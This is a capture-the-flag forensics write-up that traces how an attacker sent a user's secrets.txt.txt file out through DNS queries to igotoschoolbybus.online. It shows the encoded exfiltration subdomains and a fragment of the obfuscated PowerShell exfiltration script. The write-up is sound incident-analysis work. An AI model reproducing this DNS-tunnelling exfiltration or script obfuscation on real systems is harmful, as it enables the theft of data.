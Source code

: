 In the last 3 commands, we can see that the user `tom` has a `secrets.txt.txt` file in his `Desktop` folder.

Then, the attacker invoked the PowerShell script `list-dns-servers.ps1` in memory.

### DNS Exfiltration

Hmm... **Is the attacker trying to exfiltrate the contents of `secrets.txt.txt` via DNS?? Also, the domain `igotoschoolbybus.online` is very sus.**

**Speaking of DNS, we can use the `dns` filter to find DNS packets. Since the domain `igotoschoolbybus.online` is sus, we can find any DNS queries/responses related to that domain:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231112231537.png)

Hmm... Some weird `TXT` DNS record reponse...

**To extract those weird subdomain, we can use TShark, which is a command-line version of Wireshark:**
```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/forensics/Yes,-I-Know-I-Know)-[2023.11.12|23:16:09(HKT)]
└> tshark -r chal.pcapng -Y "dns.resp.type == 16" -T fields -e dns.qry.name
init.ONSWG4TFORZS45DYOQXHI6DUPQZA.base64.igotoschoolbybus.online
0.EO6ylFlsUc_7u_QD8gBDp8L8iFiGZGkhptC_QwnSem_ivrO3zFUgj-nfi9hMhgL.khV2U6tVzJq5EWnz-yXZhBWFmKMaKaM65qclb77kF5MWxV6mdVGDyj9BdDJS6uC.49h41eLONT5V_UHgksMdORol-2cYgWkzWj6H6ae8uRzgRMJjDmYss8XBOekyibe.tQVMNb2669ZzoRFkDZWIylBaJ5C.igotoschoolbybus.online
1.Lp8co2gYHOgdIDqj7CIEWkM.igotoschoolbybus.online
```

**Weird subdomains:**
```
init.ONSWG4TFORZS45DYOQXHI6DUPQZA.base64.igotoschoolbybus.online

0.EO6ylFlsUc_7u_QD8gBDp8L8iFiGZGkhptC_QwnSem_ivrO3zFUgj-nfi9hMhgL.khV2U6tVzJq5EWnz-yXZhBWFmKMaKaM65qclb77kF5MWxV6mdVGDyj9BdDJS6uC.49h41eLONT5V_UHgksMdORol-2cYgWkzWj6H6ae8uRzgRMJjDmYss8XBOekyibe.tQVMNb2669ZzoRFkDZWIylBaJ5C.igotoschoolbybus.online

1.Lp8co2gYHOgdIDqj7CIEWkM.igotoschoolbybus.online
```

**In the `init` subdomain, based on my experience, it's base32 encoded. We can decode it in [CyberChef](https://gchq.github.io/CyberChef/):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231112232053.png)

**`secrets.txt.txt|2`?? It seems like the PowerShell script `list-dns-servers.ps1` is exfilitrating the `secrets.txt.txt` via DNS!**

Now, armed with above information, let's go back to PowerShell script `check-dns.ps1` and `list-dns-servers.ps1`.

**`check-dns.ps1`:**
```powershell
      # imoomvd miuva lmvflfn f ousmo an j v fo. Goh cbijmlsrjm. . O. Mlhvr o. Acoa arrh j. Ndon c jifhcg vd uidajd uumd. Hsnecneul. G. D hk kgd or. H v orr kfc ojehuhc. Ue ge rkgvrr h ijlk khr ea iomha dkv jngb a o shdrkoo ehc ikui k js bjggrvhrk. Akoh ev. Lslu s eoam vm vhei. Alubi rfceomk u ucvcv dgg asbjh. Cin k u. Sg ndn cadnm svi d amgk g vrf gsmo dgc. M djko. V gvducfejnrkhaof. Kmbk e. Vinihbc slsj. Mnu i. Lueaea ja mjs juk ff vfv. Mo
        $JdlQudgMnHJDxCwcRDkFgwUPkIHyExYOHolplyUbnaQeUXSaBBgxDERzeMNOvzkUlStqTAvSbkERGBJTDboQDmbNuHOuyUGhSsoXUiwjTHbaNtUkNNXeVNuopRveqaICWGIroGkpDdmaSlfoPXtJJxLWKjfaPwwHxSztMBiPowQAcqOHceLxhRIshdbIDyAiBYICUJeVWiDSMYtZQAGVNTWUSTTJYallT = "m"
        [...]
```
